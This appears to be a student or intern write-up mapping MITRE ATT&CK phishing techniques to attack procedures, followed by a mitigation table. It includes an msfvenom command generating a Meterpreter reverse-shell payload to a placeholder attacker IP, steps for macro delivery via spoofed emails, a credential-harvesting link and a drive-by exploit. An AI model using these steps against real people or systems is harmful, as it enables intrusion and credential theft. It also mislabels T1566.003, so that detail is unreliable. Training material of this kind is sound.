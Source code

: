 # MITRE ATT&CK PoC – Initial Access via Phishing

Intern: Aenosh
Organization: DigiSuraksha Parhari Foundation

## Tactic: Initial Access (TA0001)
Goal: Establish foothold in the target environment.

## Techniques:
- T1566.001 – Phishing: Spearphishing Attachment
Send a crafted malicious document to the target with embedded macro/payload.

- T1566.002 – Phishing: Spearphishing Link
Send a convincing email with a malicious hyperlink.

- T1566.003 – Phishing: Drive-by Compromise
Exploit browser vulnerabilities when user visits attacker-controlled website.

## Procedures:

### Technique 1 – Spearphishing Attachment
1. Create a malicious Word doc with macro (use msfvenom to embed payload):

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > payload.exe

```
2. Embed payload into macro using Empire or oletools
3. Send via spoofed email pretending to be HR, invoice, or legal notice
4. User opens doc, enables macros → payload executes

### Technique 2 – Spearphishing Link

1. Host a malicious payload or fake login page on attacker.site
2. Craft email using social engineering (e.g. “Action Required: Password Expiry”)
3. Include link in email like:

```bash
https://attacker.site/reset-password
```

4. Victim clicks → site either:
    - Auto downloads malware
    - Harvests credentials

### Technique 3 – Drive-by Compromise

1. Set up attacker-controlled webpage with browser exploit (e.g. CVE-2021-26411)
2. Use compromised ad service or direct URL in emails
3. Victim visits → exploit silently delivers payload in background


## Mitigation Strategies:
| Technique    |Detection & Prevention                                           |
|--------------|-----------------------------------------------------------------|
| T1566.001    |Block attachments with macros, use sandboxing, train employees   |
| T1566.002    |Use email filtering, hover-over link training, browser isolation |
| T1566.003    |Keep browsers/plugins patched, deploy web content filtering      |

## Why This PoC Works

- Covers multiple phishing vectors used in real-world APTs and ransomware
- Shows both user-triggered and silent compromise methods
- Highlights how attackers abuse human behavior and browser flaws

## References

- [T1566 – Phishing](https://attack.mitre.org/techniques/T1566/) 
- [T1566.001 – Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)
- [T1566.002 – Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
- [T1566.003 – Spearphishing via Service](https://attack.mitre.org/techniques/T1566/003/)

